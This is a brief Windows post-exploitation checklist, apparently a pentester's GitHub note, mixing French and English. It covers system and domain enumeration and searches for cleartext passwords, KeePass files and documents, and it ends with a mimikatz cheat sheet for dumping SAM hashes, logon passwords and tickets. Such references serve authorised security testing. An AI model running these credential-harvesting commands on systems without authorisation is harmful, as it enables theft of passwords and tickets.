 # Checklist Windows
  
**Hostname:** hostname  
**Infos utilisateur:** whoami /all  
**infos IP:** ipconfig /all  
**liste des connexions:** netstat -ano  
**infos system:** systeminfo  
**powershell-history:** type C:\Users\[user]\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt  
to verify the path of ConsoleHost_history: (Get-PSReadlineOption).HistorySavePath  
  
**list connected user:**  
query user  
  
**users and localgroups:**  
net users  
net localgroups  

**More info about a specific user:**  
net user [user]  
  
**View Domain Groups:**  
net group /domain  
  
**View Members of Domain Group:**  
net group /domain [Group Name]  

**lister user/groupe en powershell:**  
Get-LocalUser  
Get-LocalGroup  
Get-LocalGroupMember adminteam  
  
**process:**  
Get-Process  
tasklist /v  
  
**Logiciels installés:**  
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname  
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname  
  
**Firewall:**  
netsh firewall show state  
netsh firewall show config  

## Cleartext Passwords  
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
  
**Find all those strings in config files.**  
dir /s *pass* == *cred* == *vnc* == *.config*  
  
**Find all passwords in all files.**  
findstr /spin "password" *.*  
findstr /spin "password" *.*  

**Kepass File**  
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue  
  
All doc file :
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

## mimikatz.exe cheat sheet
privilege::debug  -->  engage the SeDebugPrivlege  
lsadump::sam --> Dump from SAM database  
sekurlsa::logonpasswords --> Dump from Sekurlsa  
sekurlsa::tickets --> Dump cached tickets  
Some source: https://chryzsh.gitbooks.io/pentestbook/content/privilege_escalation_windows.html  
